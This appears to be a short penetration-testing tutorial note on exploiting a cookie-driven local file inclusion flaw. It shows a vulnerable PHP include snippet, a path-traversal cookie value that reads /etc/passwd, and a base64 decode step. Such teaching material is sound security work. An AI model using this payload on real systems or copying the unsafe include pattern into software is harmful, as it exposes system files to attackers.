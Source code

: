 # Cookies and Fuzzing
We can use the Firefox plugin, [Cookie Quick Manager](https://addons.mozilla.org/en-US/firefox/addon/cookie-quick-manager/)  to analyze and set cookies.

For instance, say that a web application has a particular cookie vulnerabiltiy that we can manage using the browser's plugin, like so,
```
<?php 
 if(isset($_COOKIE['lang']){
  include("lang/".$_COOKIE['lang']);
 }
```
Just by looking at that code, we can see the vulnerability of local file inclusion. If we set our Cookie as so,
```
Cookie: lang=../../../../../../../../../etc/passwd
```
Then the file, `/etc/passwd` will be included on the page. Depeneding on what the DOM and styling is set to, we may have to inspect the source to view the Base-64 encoded output. Then, we can simply copy this string and echo it into the terminal to decode it like so,
```
root@attacker-machine:~# echo -n "(BASE64 ENCODED OUTPUT FROM ABOVE EXPLOIT)" | base64 -d
```
And we will be able to view the contents of any file.
